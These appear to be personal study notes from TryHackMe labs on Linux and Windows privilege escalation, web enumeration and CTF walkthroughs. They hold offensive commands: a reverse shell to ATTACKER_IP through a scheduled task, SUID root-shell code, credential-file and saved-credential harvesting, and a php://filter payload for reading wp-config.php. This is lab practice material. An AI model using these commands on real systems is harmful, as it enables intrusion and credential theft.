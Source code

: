 # R

* Remember for web/general/security
* .todo: dns discord
* web general | terminology | URL may have to be moved

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
=> hint/notes
=> network
=> capabilities
=> `getcap -r / 2>/dev/null`
=> gtfobins
* if no_root_squash present
* Another alternative to this program, is to create a suite file with a copy of bash.

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

* https://tryhackme.com/room/windowsprivesc20 (premium)

```
Misconfigurations on Windows services or scheduled tasks
Excessive privileges assigned to our account
Vulnerable software
Missing Windows security patches
```

* System are more perms that admin
* Windows Deployment Services: deploy an image to serveral hosts. These are refereed as Unattended, Admin account required to create them. Credentials

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

* PowerShell's history: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` and in a cmd `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
* List saved crendetials `cmdkey /list`. Run command as another user? `runas /savecred /user:admin cmd.exe`
* Internet Information Services (IIS) is the default web server on Windows installations.

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

* PuTTY `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
* `schtasks /query /tn vulntask /fo list /v`: look for ones in which we can inject/modify the binary
* Start task manually `schtasks /run /tn vulntask` (CTF)
* `icacls c:\tasks\schtask.bat`: check permissions (F=Full Access)
* (cmd) `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > task.bat`
* Windows installer files (-f msi -o malicious.msi)
* Windows services are managed by the Service Control Manager (SCM).
* `sc qc` (ahah, my steel moutain)
* IN A EFFING CMD BITCH (otherwise: sc.exe)
* Unquoted Service Paths
  * If there are space in the executable space
  * and there is an executable that can be created in the path of the service
  * then the executable will be executed with the rest of the path as arguments
  * AD and WD privileges, allowing the user to create subdirectories and files
  * https://askubuntu.com/questions/1075098/remmina-scaling-options
* Insecure Service Permissions
* XXX
* https://tryhackme.com/room/windowsprivesc20 (dropped fur now)
* XXX
* Moar
  * https://github.com/bitsadmin/wesng
  * https://blog.bitsadmin.com/blog/windows-security-updates-for-hackers
  * https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
  * https://github.com/gtworek/Priv2Admin
  * https://github.com/antonioCoco/RogueWinRM
  * https://jlajara.gitlab.io/Potatoes_Windows_Privesc
  * https://decoder.cloud/
  * https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf
  * https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at C:\Program Files\FileZilla Server\FileZilla Server.xml
or C:\xampp\FileZilla Server\FileZilla Server.xml
. These can be MD5 hashes or in plaintext, depending on the version.

<hr>

## Forced Browsing

* https://tryhackme.com/room/webenumerationv2
  * Gobuster options.
  * -k for ssl errors
* Gobuster DNS/VHosts
* Useful wordlists
* nmap `-n` redo
* add a warning + 64th
* `cat /usr/share/wordlists/dirb/extensions_common.txt | tr '\n' ','`
* `gobuster -u` for vhost
* `gobuster vhost -u http://webenum.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t50 --append-domain` (in new versions of gobuster, false by default)
* NOT FINISHED https://tryhackme.com/room/webenumerationv2

> While participating in rooms on TryHackMe, virtual hosts would be a good way to hide a completely different website if nothing turned up on your main port 80/443 scan.

<hr>

## Overconfidence

--- https://tryhackme.com/room/steelmountain

* use meterpreter upload to upload the winPEAS
* `upload /tmp/xxx`
* `shell`
* `.\winPEASany_ofs.exe`
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
* `powershell -ep bypass -c ". .\PowerUp.ps1;"`
* `https://github.com/itm4n/PrivescCheck#metasploit-timeout`
* `load powershell`
* `powershell_shell`
* `. .\PowerUp.ps1; Invoke-AllChecks`
* `. .\PowerUp.ps1` `PS > Invoke-AllChecks`
* https://www.joesandbox.com/#windows
* https://github.com/EgeBalci/sgn
* sc qc XXX
* sc stop XXX
* `Write-ServiceBinary -Name 'XXX' -Path ".\nc.exe"`
* sc start XXX
* `powershell -c wget "URL" -outfile "OUTPUT"`
* like OTX: https://cyware.com/

--- https://tryhackme.com/room/easyctf 🐍🐍🐍

* `python2 simple.py`
* oh gosh, volatily + `pip install --upgrade setuptools` https://stackoverflow.com/questions/31719816/pip-fails-to-install-anything-error-invalid-command-egg-info
* `print "[+] Specify an url target"`

--- https://tryhackme.com/room/cowboyhacker

* nmap
* FTP exposed
* Hydra ssh
* SUID

--- https://tryhackme.com/room/lazyadmin 🐍🐍🐍

* nmap
* gobuster
* ...

--- https://tryhackme.com/room/startup

* nmap
* gobuster
* ftp
* file upload
* wireshark
* crontab

Others

* If FTP is asking for a password, press enter
* FTP do not seem to work with path (to upload with put, but it works if you start FTP in the directory where the file is)
* Press F12 to go back to penelope UI. You can use upload/download. Go back with `interact 1`
* wireshark `.pcapng`. Then right-click on interesting packets, and click on "follow TCP Stream"
* crontab for a user (`ls /var/spool/cron/crontabs/root` root). https://github.com/DominicBreuker/pspy
* Proper name for this section whelp 😭

--- https://tryhackme.com/room/allinonemj 🐍🐍🐍

* Kali right-arrow
* Test: `wpscan --url http://10.10.162.222/wordpress/ --detection-mode aggressive`
* `php://filter/convert.base64-encode/resource=../../../../../wp-config.php` (file inclusion)